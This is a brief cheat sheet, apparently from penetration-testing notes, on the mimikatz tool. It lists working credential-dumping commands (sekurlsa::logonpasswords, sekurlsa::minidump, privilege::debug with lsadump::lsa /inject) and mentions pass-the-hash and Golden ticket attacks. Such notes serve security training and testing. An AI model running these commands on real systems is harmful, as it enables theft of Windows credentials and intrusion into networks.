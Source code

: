 # mimikatz

## Overview

 Extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets.


## Implementations

Original tool for windows:

    https://github.com/ParrotSec/mimikatz

Impacket collection of python tools implements mimikatz.py


## Usage

It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. 

    sekurlsa::minidump <process_dump>   loads process dump
    sekurlsa::logonpasswords    Searches for passwords


To do a lsa dump


    privilege::debug
    lsadump::lsa /inject

or

    privilege::debug
    sekurlsa::logonpasswords